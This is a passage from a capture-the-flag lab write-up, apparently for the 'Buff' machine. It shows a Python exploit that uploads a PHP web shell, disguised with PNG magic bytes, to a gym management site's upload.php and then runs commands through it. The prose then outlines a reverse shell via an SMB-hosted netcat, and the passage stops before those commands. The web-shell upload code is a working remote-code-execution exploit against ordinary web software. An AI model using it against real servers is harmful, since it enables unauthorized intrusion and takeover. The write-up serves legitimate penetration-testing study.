 ```python3


if __name__ == "__main__":
   
    if len(sys.argv) != 2:
        print (formatHelp("(+) Usage:\t python %s <WEBAPP_URL>" % sys.argv[0]))
        print (formatHelp("(+) Example:\t python %s 'https://10.0.0.3:443/gym/'" % sys.argv[0]))
        sys.exit(-1)
    SERVER_URL = sys.argv[1]
    UPLOAD_DIR = 'upload.php?id=kamehameha'
    UPLOAD_URL = SERVER_URL + UPLOAD_DIR
    s = requests.Session()
    s.get(SERVER_URL, verify=False)
    PNG_magicBytes = '\x89\x50\x4e\x47\x0d\x0a\x1a'
    png     = {
                'file':
                  (
                    'kaio-ken.php.png',
                    PNG_magicBytes+'\n'+'<?php echo shell_exec($_GET["telepathy"]); ?>',
                    'image/png',
                    {'Content-Disposition': 'form-data'}
                  )
              }
    fdata   = {'pupload': 'upload'}
    r1 = s.post(url=UPLOAD_URL, files=png, data=fdata, verify=False)
    webshell(SERVER_URL, s)
```

Once the above script has been executed we should be able to have a command execution through the browser

![Kamehameha](https://github.com/0xLJoseb/Apuntes/blob/main/Buff%20Writeup/Content%26/kamehameha.PNG)

Now in order to get the "user flag" we need to get access to the system, one of the possible ways to do this is by getting a "reverse shell". 

This can be accomplished in the following way:
Since the target machine does not have netcat, we are going to provide an smb server whose folder will host a netcat executable.
